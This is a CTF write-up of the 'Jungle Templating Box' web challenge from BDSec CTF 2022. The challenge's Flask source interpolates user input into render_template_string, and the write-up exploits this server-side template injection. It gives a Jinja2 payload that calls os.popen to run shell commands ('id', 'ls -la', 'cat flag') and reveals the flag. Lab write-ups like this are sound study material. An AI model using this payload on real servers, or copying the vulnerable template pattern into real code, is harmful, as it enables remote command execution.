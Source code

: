 # Jungle Templating Box

An easy Web challenge !

Hello Welcome to My write up about this box that i've been played on BDsec CTF 2022 .

> First of all , let's take a view about the web page !!

![image info](https://github.com/Shakun8/BDSecCTF-2022/blob/main/images/view.JPG)
And now let's take a look at the source code that they give us :
```python
from flask import *
app = Flask(__name__)

@app.route('/',methods=['GET', 'POST'])
def base():
    person = ""
    if request.method == 'POST':
      if request.form['name']:
        person = request.form['name']
    palte = '''
    return render_template_string(palte)
if __name__=="__main__":
	app.run("0.0.0.0",port=5000,debug=False)
```
```html
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Secure Search</title>
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.2.0-beta1/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-0evHe/X+R7YkIZDRvuzKMRqM+OrBnVFBL6DOitfPri4tjfHxaWutUpFmBp4vmVor" crossorigin="anonymous">
  </head>
  <body>
    <h1 class="container my-3">Hi, %s</h1>
    <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.2.0-beta1/dist/js/bootstrap.bundle.min.js" integrity="sha384-pprn3073KE6tl6bjs2QrFaJGz5/SUsLqktiwsUTF55Jfv3qYSDhgCecCxMW52nD2" crossorigin="anonymous"></script>
    <div class="container my-3">
        <form action="/" method="post">
            <div class="mb-3">
              <label for="text" class="form-label">Type your name here:- </label>
              <input type="text" class="form-control" name="name" id="text" value="">
            </div>
            <button type="submit" class="btn btn-primary">See magic</button>
          </form>
    </div>
</body>
</html>'''% person
```

From here we can understand that the web page is working with Flask which is a lib on python that can configure backend of the webpage and display it as well .

Cool , now let's HACK xD .

Let's write something in the paramater of name.

![image info](https://github.com/Shakun8/BDSecCTF-2022/blob/main/images/2.JPG)

> as u can see whatever we write is printed out , it's like a variable that we can get the input and we print it .
> since we have this , what comes to my mind is SSTI exploit , we can put some payload to exec some commands and stuff. 
> let's go for it .!!


First i Tested this payload to see if it can be work : `{{7*7}}`

![image info](https://github.com/Shakun8/BDSecCTF-2022/blob/main/images/3.JPG)

And COOL , as we can see it worked , now let's intercept this request to burpsuite

>Well since the payload is worked and it worked with jinja2 , let's get some payload to read file and exec commands
You can find all this payloads here : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md

And now let's use this paylaod : `
```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

> Let's encode it with url encode and paste it in the name paramater :

![image info](https://github.com/Shakun8/BDSecCTF-2022/blob/main/images/burp.png)

damn , `id` command is executed , now let's see what's files are in this directory with `ls -la`

![image info](https://github.com/Shakun8/BDSec-CTF-2022/blob/main/images/burp2.JPG)

> as we can see , we have flag file , let's read it with `cat flag`
> ![image info](https://github.com/Shakun8/BDSecCTF-2022/blob/main/images/burp3.JPG)

Cool , flag : `BDSEC{Y3Y_7H1515_7H3_F146}`

# I Hope you enjoy it !!





